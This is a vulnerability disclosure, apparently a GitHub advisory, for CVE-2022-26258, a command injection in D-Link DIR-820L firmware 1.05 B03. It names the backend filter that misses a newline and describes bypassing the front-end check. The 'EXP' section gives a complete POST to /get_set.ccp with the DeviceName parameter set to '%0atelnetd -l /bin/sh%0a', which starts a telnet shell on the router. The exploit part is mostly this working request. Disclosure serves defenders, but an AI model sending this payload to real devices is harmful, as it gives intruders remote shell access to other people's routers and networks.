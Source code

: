 # D-Link DIR-820L command_execution

**CVE ID**: CVE-2022-26258

**Vender**: D-Link

**Vendor Homepage**: http://www.dlink.com.cn/

**Affect products**: DIR-820L

**Firmware version**: 1.05 B03

**Hardware Link**: http://www.dlinktw.com.tw/techsupport/download.ashx?file=2663

**Exploit Author**: [SkYe231@Hillstone](mailto:ext-lhliang@Hillstonenet.com), Akast@Hillstone, GD@Hillstone, Amao@Hillstone

## detail

In the handler of route `/lan.asp`, the value of parameter `Device Name` can inject command

![image-20220222165316794](img/image-20220222165316794.png)

Parameters are filtered on both the front-end and the back-end. 

**Grab traffic packets to bypass front-end filtering.** 

**The backend filter function is: `hasInjectionString` (in file `lib/libleopard.so`).The symbol `\n` is not filtered.**

## EXP

Edit the value of `lanHostCfg_DeviceName_1.1.1.0` to the command what you want to inject. Such as:

> lanHostCfg_DeviceName_1.1.1.0=%0atelnetd -l /bin/sh%0a

```html
POST /get_set.ccp HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/xml, text/xml, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 768
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/lan.asp
Cookie: hasLogin=1

ccp_act=set&old_ip=192.168.0.1&old_mask=255.255.255.0&new_ip=192.168.0.1&new_mask=255.255.255.0&nextPage=lan.asp&lanHostCfg_IPAddress_1.1.1.0=192.168.0.1&lanHostCfg_SubnetMask_1.1.1.0=255.255.255.0&lanHostCfg_DomainName_1.1.1.0=&lanHostCfg_DNSRelay_1.1.1.0=1&lanHostCfg_DHCPServerEnable_1.1.1.0=1&lanHostCfg_MinAddress_1.1.1.0=192.168.0.100&lanHostCfg_MaxAddress_1.1.1.0=192.168.0.200&lanHostCfg_DHCPLeaseTime_1.1.1.0=1440&lanHostCfg_DeviceName_1.1.1.0=%0atelnetd -l /bin/sh%0a&lanHostCfg_AlwaysBroadcast_1.1.1.0=0&lanHostCfg_NetBIOSAnnouncement_1.1.1.0=0&lanHostCfg_NetBIOSLearn_1.1.1.0=0&lanHostCfg_NetBIOSScope_1.1.1.0=&lanHostCfg_NetBIOSNodeType_1.1.1.0=2&lanHostCfg_PrimaryWINSAddress_1.1.1.0=0.0.0.0&lanHostCfg_SecondaryWINSAddress_1.1.1.0=0.0.0.0&1645537536373=1645537536373
```

